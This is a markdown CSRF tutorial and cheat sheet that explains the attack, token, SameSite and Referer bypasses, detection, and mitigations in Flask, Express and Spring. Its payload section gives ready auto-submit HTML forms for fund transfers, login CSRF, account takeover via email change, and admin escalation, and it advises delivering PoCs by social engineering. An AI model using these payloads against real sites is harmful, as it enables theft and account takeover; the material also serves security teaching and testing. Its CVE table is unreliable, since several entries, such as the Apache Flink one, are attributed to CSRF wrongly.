

# Cross-Site Request Forgery (CSRF)

> **CSRF tricks a logged-in user's browser into sending a forged request to a web app — the browser automatically includes the user's cookies, so the server thinks it's a legitimate action.**

---

## 🧠 What Is It? (Beginner Explanation)

You're logged into your bank (`bank.com`). In another tab, you visit `evil.com`. That evil page silently makes your browser send a request to `bank.com/transfer?to=attacker&amount=10000`. Your browser sends your bank session cookie automatically — the bank sees a valid session and processes the transfer.

You didn't click anything. You didn't consent. The evil page just *forged* a request that appeared to come from you.

**The three conditions for CSRF to work:**
1. The victim has an active session (cookie exists)
2. The action can be triggered by a predictable HTTP request
3. The server doesn't validate a secret token tied to the user's session

---

## 🏗️ How It Works (Technical Deep Dive)

Browsers automatically include cookies when making requests to a domain — even when that request originates from a completely different site.

```
User visits bank.com → browser receives Set-Cookie: session=abc123
User visits evil.com → page contains 
Browser fetches the URL → automatically includes Cookie: session=abc123
Bank processes the request thinking it came from the user
```

### What Makes It Cross-Site vs Same-Site

- **Cross-site**: evil.com making a request to bank.com
- **Same-site**: bank.com making a request to bank.com (e.g., a legitimate form submission)

CSRF exploits the fact that browsers include credentials (cookies) on ALL requests to a domain, regardless of origin.

---

## 📊 Diagram



---

## ⚙️ Technical Details

### How CSRF Tokens Work

The server generates a random, unpredictable token and associates it with the user's session. The token must be included in state-changing requests.

```html
<!-- Server includes token in every form -->
<form method="POST" action="/transfer">
  <input type="hidden" name="csrf_token" value="a8f3b2c1d9e4f7a2b6c8d3e5f1a9b4c7">
  <input name="amount">
  <button>Transfer</button>
</form>
```

When the form is submitted, the server compares the token in the request with the token stored in the session. An attacker on evil.com cannot read the token due to Same-Origin Policy.

### Where to Find CSRF Tokens

```
1. Hidden form fields: <input type="hidden" name="csrf_token" value="...">
2. Response headers: X-CSRF-Token: ...
3. Meta tags: <meta name="csrf-token" content="...">
4. Cookies (double-submit pattern)
5. JavaScript variables: var csrfToken = "...";
```

---

## 🔴 Attack Surface & Exploitation

### CSRF Token Bypass Techniques

#### 1. Token Not Validated Server-Side
```
Many apps generate tokens but forget to validate them.
Test: Remove the csrf_token parameter entirely.
If the request succeeds → not validated.
```

#### 2. Token Validated Against Nothing
```
Test: Change the token value to anything (e.g., "abc123").
If the request succeeds → token is not properly validated.
```

#### 3. Token Tied to Session But Not to User
```
Two accounts: attacker and victim.
Get YOUR valid CSRF token → use it in a CSRF attack on the victim.
If the server just checks "is this a valid token?" without checking it belongs to THIS session → bypass.
```

#### 4. Token in URL (Referer Leakage)
```
If CSRF token is in the URL (GET parameter), it may leak via Referer header
to third-party sites the victim visits next.
```

#### 5. Double Submit Cookie Bypass
```
Some apps put the CSRF token in both a cookie AND a form field.
Server checks they match.
If attacker can set cookies on the victim's browser (subdomain takeover, XSS) → bypass.
```

#### 6. HTTP Method Override
```
Test: Change POST to GET.
Some frameworks accept X-HTTP-Method-Override: POST
If GET requests aren't protected → bypass.
```

### SameSite Cookie Attribute

This is the modern primary defense. Set on the cookie itself.

```http
Set-Cookie: session=abc123; SameSite=Strict
Set-Cookie: session=abc123; SameSite=Lax
Set-Cookie: session=abc123; SameSite=None; Secure
```

| SameSite Value | Cross-site POST | Cross-site GET (top-level) | Impact |
|----------------|-----------------|---------------------------|--------|
| `Strict` | Blocked | Blocked | Most secure, CSRF fully blocked |
| `Lax` | Blocked | Allowed | Blocks most CSRF, allows GET-based |
| `None; Secure` | Allowed | Allowed | No protection |
| Not set (old default) | Allowed | Allowed | Vulnerable |

#### SameSite=Lax Bypass Scenarios

```html
<!-- GET-based state change still works with Lax -->

<a href="https://bank.com/delete-account?confirm=true">Free gift!</a>

<!-- Top-level navigation (link click) counts as "same-site" for Lax -->
<form action="https://bank.com/transfer" method="GET">
  <input name="to" value="attacker">
  <input name="amount" value="5000">
  <input type="submit" value="Click for prize">
</form>
```

#### SameSite=Strict Bypass via Redirect

```
victim.com has a redirect: /go?url=evil.com
Trick victim into navigating to victim.com/go?url=evil-csrf-page.html
Because navigation started from victim.com, SameSite=Strict cookies included!
Now evil-csrf-page makes request back to victim.com — still first-party navigation chain.
```

### Referer-Based Protection Bypass

Some apps check `Referer` header instead of CSRF tokens.

```python
# App checks:
if 'bank.com' not in request.headers.get('Referer', ''):
    abort(403)

# Bypass 1: No Referer at all
# Add to attacker page:
<meta name="referrer" content="no-referrer">
# Or: Referer header omitted = request allowed if app uses "not in" check with empty default

# Bypass 2: Referer contains allowed domain as parameter
# Navigate from: https://evil.com/csrf?bank.com
# Referer: https://evil.com/csrf?bank.com
# 'bank.com' IS in the Referer string!

# Bypass 3: Subdomain
# Navigate from: https://bank.com.evil.com/
# Referer: https://bank.com.evil.com/
# Contains 'bank.com'!
```

---

## 💥 Payloads & PoC Templates

### Basic GET CSRF (Link/Image)

```html
<!-- Triggered just by loading the page -->


<!-- Via 0x0 iframe -->
<iframe src="https://bank.com/delete-account?confirm=1" style="display:none"></iframe>

<!-- Via link (requires click) -->
<a href="https://bank.com/admin/add-user?username=hacker&role=admin">Click for free iPhone!</a>
```

### Basic POST CSRF (Auto-Submit Form)

```html
<!DOCTYPE html>
<html>
<body>
  <form id="csrf-form" action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="5000">
    <input type="hidden" name="to_account" value="attacker_account">
    <input type="hidden" name="description" value="payment">
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

### CSRF with Custom Headers via Fetch (SOP Limitation)

```html
<!-- Cross-origin fetch with non-simple headers gets blocked by CORS preflight -->
<!-- But simple headers work if server doesn't check Origin -->
<script>
  fetch('https://bank.com/transfer', {
    method: 'POST',
    credentials: 'include',     // Include cookies!
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'amount=5000&to=attacker'
  });
</script>
```

### JSON CSRF (Content-Type Bypass)

Servers expecting JSON often check `Content-Type: application/json`. But HTML forms can't send JSON with that content type — only `text/plain`, `multipart/form-data`, or `application/x-www-form-urlencoded`.

```html
<!-- If server accepts request with text/plain Content-Type -->
<form action="https://api.bank.com/transfer" method="POST" enctype="text/plain">
  <!-- name=value format: the "=" splits key/value -->
  <!-- We need body to be: {"amount":"5000","to":"attacker"} -->
  <!-- Trick: name={"amount":"5000","to":"attacker", "x"  value="" -->
  <input type="hidden" name='{"amount":"5000","to":"attacker","ignore":"' value='"}'>
</form>
<!-- Resulting body: {"amount":"5000","to":"attacker","ignore":"="} -->
<!-- Some JSON parsers ignore unknown fields = CSRF succeeds -->
<script>document.forms[0].submit()</script>
```

### Multipart CSRF (File Upload)

```html
<form action="https://target.com/upload" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="file" value="malicious content">
  <input type="hidden" name="action" value="delete">
  <input type="hidden" name="target" value="config.php">
</form>
<script>document.forms[0].submit()</script>
```

### Login CSRF (Force Victim to Log in as Attacker)

```html
<!-- Attacker has an account on target.com -->
<!-- Force victim to log in with ATTACKER credentials -->
<form id="csrf" action="https://target.com/login" method="POST">
  <input type="hidden" name="username" value="attacker@evil.com">
  <input type="hidden" name="password" value="attacker_password">
</form>
<script>document.getElementById('csrf').submit()</script>

<!-- Now victim is browsing as attacker:
     - Attacker sees victim's activity (shopping, searches)
     - Victim might save their card details to attacker's account
     - Victim thinks they're logged into their own account
-->
```

### CSRF → Account Takeover (Change Email)

```html
<!-- Step 1: Change victim's email to attacker-controlled address -->
<form id="csrf" action="https://target.com/settings/email" method="POST">
  <input type="hidden" name="new_email" value="attacker@evil.com">
  <input type="hidden" name="confirm_email" value="attacker@evil.com">
</form>
<script>document.getElementById('csrf').submit()</script>

<!-- Step 2: Trigger password reset for the account -->
<!-- Password reset email goes to attacker@evil.com -->
<!-- Attacker clicks reset link, sets new password -->
<!-- Full account takeover complete -->
```

### CSRF → Admin Privilege Escalation

```html
<!-- If admin panel has no CSRF protection on user role change -->
<form id="csrf" action="https://target.com/admin/users/modify" method="POST">
  <input type="hidden" name="user_id" value="1337">   <!-- victim's ID -->
  <input type="hidden" name="role" value="admin">
</form>
<script>document.getElementById('csrf').submit()</script>
```

---

## 🛠️ Tools & Commands

### Burp Suite CSRF Testing

```
1. Intercept the target request in Burp Proxy
2. Right-click → Engagement tools → Generate CSRF PoC
3. Burp generates HTML form matching the request
4. Click "Test in browser" to open in browser with your session
5. Verify it works, then deliver via social engineering
```

### Manual Testing Flow

```bash
# Step 1: Find state-changing requests
# Look for: POST/PUT/DELETE requests that change data
# (password change, email change, transfers, settings, admin actions)

# Step 2: Check for CSRF token
# Open DevTools → Network tab → find the request
# Inspect headers and body for csrf_token, _token, authenticity_token, etc.

# Step 3: If token present, test bypass
# Remove token entirely
# Change token value
# Try GET instead of POST

# Step 4: Check SameSite cookie attribute
# DevTools → Application → Cookies
# Check SameSite column

# Step 5: Build PoC and test
```

---

## 🔍 Detection

### Signs of CSRF Vulnerability

```
✓ State-changing GET requests (easiest to exploit)
✓ No csrf_token in forms or requests
✓ Token is present but server doesn't validate it
✓ Cookies without SameSite attribute (or SameSite=None)
✓ Token in URL instead of body
✓ Token tied to session but not to request
✓ No Origin/Referer validation
```

### How to Confirm

```
1. Capture legitimate request in Burp
2. Send to Repeater
3. Remove csrf_token parameter
4. Change/remove Origin and Referer headers
5. If server returns success → CSRF confirmed
```

---

## 🛡️ Mitigation

### CSRF Token (Server-Side)

```python
# Flask-WTF CSRF protection (Python)
from flask_wtf.csrf import CSRFProtect
csrf = CSRFProtect(app)

# Generate token
from flask_wtf.csrf import generate_csrf
token = generate_csrf()

# In template
<input type="hidden" name="csrf_token" value="{{ csrf_token() }}">
```

```javascript
// Express.js with csurf middleware
const csrf = require('csurf');
app.use(csrf({ cookie: true }));

// In route
app.get('/form', (req, res) => {
  res.render('form', { csrfToken: req.csrfToken() });
});
```

```java
// Spring Security CSRF (enabled by default)
<input type="hidden" name="${_csrf.parameterName}" value="${_csrf.token}"/>

// For AJAX
headers: {
    'X-CSRF-TOKEN': $('meta[name="_csrf"]').attr('content')
}
```

### SameSite Cookie Attribute

```python
# Flask - set SameSite on session cookie
app.config['SESSION_COOKIE_SAMESITE'] = 'Lax'
app.config['SESSION_COOKIE_SECURE'] = True
app.config['SESSION_COOKIE_HTTPONLY'] = True
```

```http
# Set-Cookie header
Set-Cookie: session=abc123; SameSite=Lax; Secure; HttpOnly; Path=/
```

### Origin Header Validation

```python
# Python/Flask - validate Origin header
from flask import request

@app.before_request
def check_origin():
    if request.method in ['POST', 'PUT', 'DELETE', 'PATCH']:
        origin = request.headers.get('Origin')
        if origin and origin not in ALLOWED_ORIGINS:
            abort(403, 'CSRF detected: invalid origin')
```

### Defense Summary Table

| Defense | Strength | Notes |
|---------|----------|-------|
| CSRF token (synchronized) | Strong | Gold standard, properly implemented |
| SameSite=Strict | Strong | Breaks cross-site navigation flows |
| SameSite=Lax | Medium | Still allows GET CSRF |
| Double Submit Cookie | Medium | Broken if subdomain XSS exists |
| Origin/Referer check | Medium | Can be bypassed |
| Custom header (X-Requested-With) | Medium | SOP-based, not CSRF token |
| Re-authentication | Strong | For critical actions (e.g., password change) |

---

## 📋 Real CVE Examples

| CVE | Application | Impact |
|-----|-------------|--------|
| CVE-2022-39213 | Netdata | CSRF in admin panel → admin account creation |
| CVE-2020-17519 | Apache Flink | CSRF in REST API |
| CVE-2019-6470 | DHCP server | CSRF in management interface |
| CVE-2021-32682 | elFinder | CSRF → file operations |
| CVE-2022-3348 | GitLab | CSRF token bypass |

---

## 📚 References

- [PortSwigger CSRF](https://portswigger.net/web-security/csrf)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SameSite Cookies Explained](https://web.dev/samesite-cookies-explained/)
- [PayloadsAllTheThings CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
